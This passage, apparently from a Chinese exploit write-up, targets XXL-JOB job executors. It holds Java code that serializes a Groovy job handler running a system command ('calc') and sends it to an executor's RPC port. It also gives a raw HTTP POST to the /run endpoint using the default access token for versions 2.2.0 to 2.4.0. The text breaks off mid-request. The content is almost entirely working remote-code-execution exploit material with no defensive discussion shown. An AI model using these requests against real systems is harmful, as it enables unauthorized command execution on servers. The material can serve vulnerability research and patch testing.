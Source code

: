 ```plain
                "import com.xxl.job.core.biz.model.ReturnT;\n" +
                "import com.xxl.job.core.handler.IJobHandler;\n" +
                "import java.lang.Runtime;\n" +
                "\n" +
                "public class DemoGlueJobHandler extends IJobHandler {\n" +
                "\n" +
                "\t@Override\n" +
                "\tpublic ReturnT<String> execute(String param) throws Exception {\n" +
                "      \tRuntime.getRuntime().exec(\"calc\");\n" +
                "\t\treturn ReturnT.SUCCESS;\n" +
                "\t}\n" +
                "\n" +
                "}\n";

        System.out.println(code);

        TriggerParam params = new TriggerParam();
        params.setJobId(10);
        params.setExecutorBlockStrategy("SERIAL_EXECUTION");
        params.setLogId(10);
        params.setLogDateTime((new Date()).getTime());
        params.setGlueType("GLUE_GROOVY");
        params.setGlueSource(code);
        params.setGlueUpdatetime((new Date()).getTime());

        XxlRpcRequest xxlRpcRequest = new XxlRpcRequest();
        xxlRpcRequest.setRequestId("111");
        xxlRpcRequest.setClassName("com.xxl.job.core.biz.ExecutorBiz");
        xxlRpcRequest.setMethodName("run");
        xxlRpcRequest.setParameterTypes(new Class[]{TriggerParam.class});
        xxlRpcRequest.setParameters(new Object[] {params});
        xxlRpcRequest.setCreateMillisTime((new Date()).getTime());

        HessianSerializer serializer = new HessianSerializer();

        byte[] data = serializer.serialize(xxlRpcRequest);
        sendData("http://127.0.0.1:9999", data);

    }
}
```

## 2, 2.2.0<=XxlJob<=2.4.0

支持了 RESTFUL API，可以直接发送 http 包伪造  
exp

```plain
POST /run HTTP/1.1
Host: 192.168.226.1:10999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
XXL-JOB-ACCESS-TOKEN: default_token
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
```